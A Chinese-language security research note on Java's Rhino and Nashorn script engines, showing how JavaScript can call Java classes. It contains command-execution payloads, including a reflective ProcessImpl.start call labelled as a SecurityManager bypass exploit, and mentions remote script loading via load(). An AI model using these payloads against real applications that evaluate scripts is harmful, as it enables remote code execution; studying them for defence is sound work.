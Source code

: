 # ScriptEngineManager

Java 6/7采用的js解析引擎是Rhino

java8开始换成了Nashorn。

## 调用Java方法

前面加上全限定类名即可

```js
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");//输出
var result = sc.hasNext() ? sc.next() : "";
print(result)
sc.close();
```

## 导入Java类型

```js
var str = java.lang.String;

 //这种写法仅仅支持Nashorn，Rhino并不支持。jdk8+
var str = Java.type("java.lang.String");//类型
-----------------------------------------数组--------------------------------
// Rhino
var Array = java.lang.reflect.Array
var intClass = java.lang.Integer.TYPE
var array = Array.newInstance(intClass, 8)

// Nashorn
var str = Java.type("java.lang.String[]");
var IntArray = Java.type("int[]")
var array = new IntArray(8)
```

## 导入Java class

>通过反射可以获得java类

```js
// Rhino
var str = java.lang.String.class;
var impl = java.lang.ProcessImpl.class;

// Nashorn
var str = Java.type("java.lang.String").class;//类型
var impl = Java.type("java.lang.ProcessImpl").class;
```

## 导入Java类

```js
load("nashorn:mozilla_compat.js");

importClass(java.util.HashSet);
var set = new HashSet();

importPackage(java.util);
var list = new ArrayList();
```

在一些特殊情况下，导入的全局包会影响js中的函数，例如类名冲突。这个时候可以用JavaImporter，并配合with语句，对导入的Java包设定一个使用范围。

```js
// create JavaImporter with specific packages and classes to import

var SwingGui = new JavaImporter(javax.swing,
                            javax.swing.event,
                            javax.swing.border,
                            java.awt.event);
with (SwingGui) {
    // 在with里面才可以调用swing里面的类，防止污染
    var mybutton = new JButton("test");
    var myframe = new JFrame("test");
}
```

## 方法调用

方法在JavaScript中实际上是对象的一个属性，所以除了使用 . 来调用方法之外，也可以使用[]来调用方法：

```js
var System = Java.type('java.lang.System');
System.out.println('Hello, World');    // Hello, World
System.out['println']('Hello, World'); // Hello, World
```

## 方法重载

Java支持重载（Overload）方法，例如，System.out 的 println 有多个重载版本，如果你想指定特定的重载版本，可以使用[]指定参数类型。例如：

```js
var System = Java.type('java.lang.System');
System.out['println'](3.14);          // 3.14
System.out['println(double)'](3.14);  // 3.14
System.out['println(int)'](3.14);     // 3
```

## 反射

```js
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;

public class main {
    public static void main(String[] args) throws Exception {
        String poc1 = "var s = [3];\n" +
                "s[0] = \"cmd\";\n" +
                "s[1] = \"/c\";\n" +
                "s[2] = \"whoami\";" +
                "var p = java.lang.Runtime.getRuntime().exec(s);\n" +
                "var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\n" +
                "var result = sc.hasNext() ? sc.next() : \"\";\n" +
                "print(result);sc.close();";

        String bypass_sm_exp = "var str = Java.type('java.lang.String[]').class;" +
                "var map = Java.type('java.util.Map').class;" +
                "var string = Java.type('java.lang.String').class;" +
                "var Redirect = Java.type('java.lang.ProcessBuilder.Redirect[]').class;" +
                "var boolean = Java.type('boolean').class;" +
                "var c = java.lang.Class.forName('java.lang.ProcessImpl');" +
                "var start = c.getDeclaredMethod('start',str,map,string,Redirect,boolean);" +
                "start.setAccessible(true);" +
                "var anArray = [\"cmd\", \"/c\", \"ipconfig\"];" +
                "var cmd = Java.to(anArray, Java.type(\"java.lang.String[]\"));" +
                "var input = start.invoke(null,cmd,null,null,null,false).getInputStream();" +
                "var reader = new java.io.BufferedReader(new java.io.InputStreamReader(input));" +
                "var stringBuilder = new java.lang.StringBuilder();" +
                "var line = null;" +
                "while((line = reader.readLine())!=null){" +
                "stringBuilder.append(line);" +
                "stringBuilder.append('\\r\\n');"+
                "}" +
                "stringBuilder.toString();" +
                "print(stringBuilder)";
        ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");
        engine.eval(bypass_sm_exp);
    }
}
```
2021/12/21 更新

## 远程加载

之前在安全客上介绍了这个利用思路[文章](https://www.anquanke.com/post/id/248771#h3-3)，当时没有利用成功，今天晚上jiang师傅给我说了利用思路。大概是一个load()去远程加载执行。


https://anuradha-15.medium.com/loading-scripts-using-nashorn-85585f495cf0

